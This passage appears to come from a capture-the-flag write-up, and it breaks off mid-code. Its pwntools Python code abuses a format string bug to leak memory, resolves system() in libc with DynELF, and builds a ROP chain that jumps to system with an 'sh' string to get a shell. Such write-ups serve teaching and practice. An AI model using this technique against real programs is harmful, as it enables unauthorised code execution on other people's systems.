1. perform info leak with the format string vulnerability
2. overwrite return address of `main` with the start of `main` to create a loop

Using this we can leak as many bytes as we want.

```python
@pwnlib.memleak.MemLeak.NoNewlines
def fmtleak(addr):
    log.debug("leaking addr 0x{:x}".format(addr))
    pl = "ABCD%10$sDCBA"
    pl += "\x00" * 3
    pl += p64(addr)
    if "\n" in pl:
        log.warning("newline in payload!")
        return ""
    vp.sendline(pl)
    x = vp.recv()
    if x:
        f = x.find("ABCD") + 4
        l = x.find("DCBA")
        res = x[f:l]
        if res == "":
            res = "\x00"

    pad = "\x00" + "A" * (0x810 - 1)
    pl = pad
    pl += p64(0xdeadc0de)
    pl += p64(main)
    vp.sendline(pl)

    return res

printf_leaked = fmtleak.q(printf_got)
log.info("printf 0x{:x}"
         .format(printf_leaked))

de = DynELF(fmtleak, printf_leaked)

# puts = de.lookup("puts", "libc")
system = de.lookup("system", "libc")

log.info("system: 0x{:x}".format(system))
# log.info("puts: 0x{:x}".format(puts))
```

With this we had the offset from system to printf (which we can leak much more
easily via the GOT) and allowed us to construct a reliable ROP exploit.

```python

system = printf_leaked - 0xf860

vp.sendline("\x00")

pad = "wat\x00"
pad += "A" * (0x810 - 4)
pl = pad
# rop by hand, because pwntools ELF can't load the leaked one
pl += p64(0xdeadc0de)
pl += p64(0x004008e3)  # pop rdi
pl += p64(0x004003cf)  # sh string
# pl += p64(puts)
pl += p64(system)
pl += p64(main)

if "\n" in pl:
```
